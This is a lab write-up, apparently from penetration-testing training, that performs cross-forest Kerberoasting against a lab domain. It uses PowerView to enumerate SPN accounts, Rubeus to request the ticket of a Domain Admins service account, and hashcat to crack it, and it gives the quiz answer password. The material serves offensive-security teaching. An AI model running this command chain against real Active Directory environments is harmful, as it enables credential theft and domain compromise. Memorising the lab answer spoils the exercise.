




<div align='center'>

# **Lab 25: Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows** 

</div>

## **Cross-Forest Kerberoasting**

**Enumerating Accounts for Associated SPNs Using Get-DomainUser (PowerView)**

```powershell
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```


**Enumerating the mssqlsvc Account**

```powershell
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```



We can see that the mssqlsvc account is a member of the `Domain Admins` group in the `FREIGHTLOGISTICS.LOCAL` domain.

**Performing a Kerberoasting Attacking with Rubeus Using /domain Flag**

```powershell
Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```



We get the [hash](../docs/mssqlsvc_TGSTicket.txt) for the mssqlsvc account.

**Cracking the Hash with Hashcat**

```zsh
hashcat -m 13100 mssqlsvc_TGSTicket.txt /usr/share/wordlists/rockyou.txt
```



We get the password for the mssqlsvc account: `1logistics`

**Question**: Perform a cross-forest Kerberoast attack and obtain the TGS for the mssqlsvc user. Crack the ticket and submit the account's cleartext password as your answer.

- **Answer**: `1logistics`

